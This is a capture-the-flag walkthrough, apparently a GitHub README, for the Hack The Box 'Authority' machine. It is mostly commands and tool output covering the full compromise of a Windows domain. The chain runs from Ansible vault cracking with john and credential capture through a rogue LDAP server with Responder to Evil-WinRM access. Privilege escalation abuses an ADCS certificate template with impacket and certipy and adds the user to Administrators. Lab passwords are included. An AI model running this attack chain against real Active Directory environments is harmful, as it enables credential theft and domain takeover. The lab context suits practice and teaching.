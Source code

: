 #Nmap

1.smbclient -L ip
smbclient \\\\10.10.11.222\\Development

2.cd \Automation\Ansible\PWM\defaults\
3.get main.yml

## └─# cat main.yml

pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
$ANSIBLE_VAULT;1.1;AES256
32666534386435366537653136663731633138616264323230383566333966346662313161326239
6134353663663462373265633832356663356239383039640a346431373431666433343434366139
35653634376333666234613466396534343030656165396464323564373334616262613439343033
6334326263326364380a653034313733326639323433626130343834663538326439636232306531
3438

pwm_admin_password: !vault |
$ANSIBLE_VAULT;1.1;AES256
31356338343963323063373435363261323563393235633365356134616261666433393263373736
3335616263326464633832376261306131303337653964350a363663623132353136346631396662
38656432323830393339336231373637303535613636646561653637386634613862316638353530
3930356637306461350a316466663037303037653761323565343338653934646533663365363035
6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
$ANSIBLE_VAULT;1.1;AES256
63303831303534303266356462373731393561313363313038376166336536666232626461653630
3437333035366235613437373733316635313530326639330a643034623530623439616136363563
34646237336164356438383034623462323531316333623135383134656263663266653938333334
3238343230333633350a646664396565633037333431626163306531336336326665316430613566
3764

          decrypt with ansible2john <filename>

          and then copy its ansible password then fill it in file then to decrypt it u need hash with john tools

          john --wordlist=/usr/share/wordlists/rockyou.txt hash.txtt

          then u got the password after that go back the passwd then cat <file_name> | ansible-vault decrypt

Vault Password:!@#$%^\* (password already decrypted)

then u will got the user then to get password use same way to get user

username:svc*pwm
Password:pWm*@dm!N\_!23

login on https://10.10.11.222:8443/pwm/private/login
then select "Configuration Manager"
then fill the password u decrypted

after you login Download configuration and then u just find it this code

<value>ldaps://authority.authority.htb:636</value>

then change it to  
 <value>ldap://<Your-Ip-Tun0>:389</value>

then saved it then back to the website click "Import Configuration"

next upload file already changed , so open terminal run command

responder -I tun0 -wA

and then boom u got the password , next way go to evil-winrm to capture the flag

evil-winrm -i 10.10.11.222 -u svc_ldap -p "<password>"
lDaP_1n_th3_cle4r!

#Privilege Escalation

impacket-addcomputer authority.htb/svc_ldap:<password> -dc-ip 10.10.11.222 -computer-name '<give_any_name>' -computer-pass '<give_any_pass>'

#Example
impacket-addcomputer authority.htb/svc_ldap:lDaP_1n_th3_cle4r! -dc-ip 10.10.11.222 -computer-name 'hack' -computer-pass '123'

#Certipy Installation
git clone https://github.com/ly4k/Certipy.git
cd Certipy 
pip3 install certipy-ad
python3 setup.py install

certipy find -u 'test1$' -p '123' -dc-ip 10.10.11.222


certipy req -username 'hack$' -password '123' -ca 'AUTHORITY-CA' -target 10.10.11.222 -template 'CorpVpn' -upn "administrator@authority.htb" -dns authority.authority.htb

if u got some error u need copy authority.authority.htb to /etc/hosts
and run command sudo ntpdate -u authority.authority.htb

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with multiple identifications
    UPN: 'administrator@authority.htb'
    DNS Host Name: 'authority.authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_authority.pfx'

the private keys saved on your linux , so we just login ldap to add user

#Ldap Command
certipy auth -pfx administrator_authority.pfx -dc-ip 10.10.11.222 -ldap-shell
run command help to see command 
# help

 add_computer computer [password] [nospns] - Adds a new computer to the domain with the specified password. If nospns is specified, computer will be created with only a single necessary HOST SPN. Requires LDAPS.
 rename_computer current_name new_name - Sets the SAMAccountName attribute on a computer object to a new value.
 add_user new_user [parent] - Creates a new user.
 add_user_to_group user group - Adds a user to a group.
 change_password user [password] - Attempt to change a given user's password. Requires LDAPS.
 clear_rbcd target - Clear the resource based constrained delegation configuration information.
 disable_account user - Disable the user's account.
 enable_account user - Enable the user's account.
 dump - Dumps the domain.
 search query [attributes,] - Search users and groups by name, distinguishedName and sAMAccountName.
 get_user_groups user - Retrieves all groups this user is a member of.
 get_group_users group - Retrieves all members of a group.
 get_laps_password computer - Retrieves the LAPS passwords associated with a given computer (sAMAccountName).
 grant_control target grantee - Grant full control of a given target object (sAMAccountName) to the grantee (sAMAccountName).
 set_dontreqpreauth user true/false - Set the don't require pre-authentication flag to true or false.
 set_rbcd target grantee - Grant the grantee (sAMAccountName) the ability to perform RBCD to the target (sAMAccountName).
 start_tls - Send a StartTLS command to upgrade from LDAP to LDAPS. Use this to bypass channel binding for operations necessitating an encrypted channel.
 write_gpo_dacl user gpoSID - Write a full control ACE to the gpo for the given user. The gpoSID must be entered surrounding by {}.
 exit - Terminates this session.



add_user_to_group svc_ldap 'Administrator'


now exit LDAP go back linux run evil-wirnm for capture the flag root

evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'

after you logged in you just 
"cd C:\Users\Administrator\Desktop"
cat root.txt
de8**************